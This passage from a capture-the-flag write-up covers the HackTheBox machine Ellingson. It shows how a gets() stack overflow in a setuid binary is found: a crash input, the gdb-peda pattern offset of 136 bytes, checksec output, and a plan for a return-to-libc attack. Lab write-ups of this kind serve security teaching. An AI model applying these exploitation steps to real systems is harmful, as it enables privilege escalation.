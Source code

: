 ### Part 1: address leak

Looking at the source code of `auth()` function, we can see that the input is taken with the `gets()` function, which is renowned to be a dangerous function because doesn't check the boundaries of the destination buffer. Infact, if we feed the password request with 136 `a`, it crashes:

	margo@ellingson:~$ /usr/bin/garbage
	Enter access password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

	access denied.
	Segmentation fault (core dumped)

We open it our executable with **gdb** on our attacker machine and let's create a pattern to understand where the overflow occours with precision. Note that gdb on my machine uses [peda.py](https://github.com/longld/peda) to provide extra functionalities:

	root@pentestbox:~# gdb garbage
	Reading symbols from garbage...
	(No debugging symbols found in garbage)
	gdb-peda$ pattern create 200
	'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

We run then the program and feed the password with the pattern:

	gdb-peda$ run
	Starting program: /root/HTB/Machines/Ellingson/garbage 
	Enter access password: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

	access denied.

	Program received signal SIGSEGV, Segmentation fault.

and we get the expected crash. Lets ask what is the content of the `$rsp` register by running:

	gdb-peda$ x/xg $rsp
	0x7ffd15aba208:	0x41416d4141514141

This is our target address because from there we can manipulate the program execution flow. The content is a subportion of our pattern, so we let `peda.py` calculate for us how long is the buffer to overflow:

	gdb-peda$ pattern offset 0x41416d4141514141
	4702159612987654465 found at offset: 136

With this said, we can start to build our exploit. When running `checksec` we see that the stack is **not executable**, which means that we cannot just drop some code and execute it from there. So, we need to make _return to libc_ attack. By running `file`, we know that the file is dynamically linked, therefore functions from `libc` don't come together with the executable. 

<pre>root@pentestbox:~# file garbage
garbage: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), <b>dynamically linked</b>, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=de1fde9d14eea8a6dfd050fffe52bba92a339959, not stripped
root@pentestbox:~# checksec garbage
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
<b>NX:       NX enabled</b>
PIE:      No PIE (0x400000)</pre>
